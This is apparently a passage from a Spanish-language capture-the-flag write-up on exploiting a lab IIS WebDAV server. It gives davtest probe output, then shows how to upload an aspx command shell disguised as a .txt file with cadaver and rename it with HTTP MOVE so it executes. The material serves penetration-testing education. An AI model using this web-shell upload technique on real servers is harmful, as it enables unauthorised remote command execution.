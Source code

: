 ```bash
PUT     asp     FAIL                                            
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.txt
********************************************************
 Checking for test file execution
EXEC    jsp     FAIL
EXEC    jhtml   FAIL                                                                                                             
EXEC    php     FAIL
EXEC    cfm     FAIL                                                                                                             
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.html
EXEC    pl      FAIL                                            
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.txt
                                                                
********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_tMk2tUFP
PUT File: http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.jsp
PUT File: http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.jhtml
PUT File: http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.php
PUT File: http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.cfm
PUT File: http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.html
PUT File: http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.pl
PUT File: http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.txt
Executes: http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.html
Executes: http://10.10.10.15/DavTestDir_tMk2tUFP/davtest_tMk2tUFP.txt
```

Vemos en los resultados que NO podemos subir archivos de extensión *asp* y *aspx*, los cuales son relacionados a Microsoft IIS. Podríamos pensar que como nos permite subir archivos PHP, podríamos ir por ahí, pero NO, por que el código no se nos va a interpretar. 

Pensando un poco, podríamos subir un archivo con una extensión válida y luego a través de método HTTP MOVE podriamos renombrar el archivo con la extensión correcta. Así que vamos a buscar un archivo `cmd.aspx` y lo copiamos a nuestro directorio de trabajo.

```bash
❯ locate cmd.aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
❯ cp $(!!) .
cp $(locate cmd.aspx) .
❯
```

Lo renombramos con extensión *txt* y con la herramienta `cadaver` subimos el archivo al servidor y con el método MOVE le cambiamos la extensión a `aspx`:

```bash
❯ cadaver 10.10.10.15
dav:/> ls
Listando colección `/': exitoso.
 Col:   DavTestDir_tMk2tUFP                    0  sep 20 16:48
 Col:   _private                               0  abr 12  2017
 Col:   _vti_bin                               0  abr 12  2017
 Col:   _vti_cnf                               0  abr 12  2017
 Col:   _vti_log                               0  abr 12  2017
 Col:   _vti_pvt                               0  abr 12  2017
 Col:   _vti_script                            0  abr 12  2017
 Col:   _vti_txt                               0  abr 12  2017
 Col:   aspnet_client                          0  abr 12  2017
 Col:   images                                 0  abr 12  2017
        _vti_inf.html                       1754  abr 12  2017
        iisstart.htm                        1433  feb 21  2003
        pagerror.gif                        2806  feb 21  2003
        postinfo.html                       2440  abr 12  2017
dav:/> put aspx_cmd.txt
```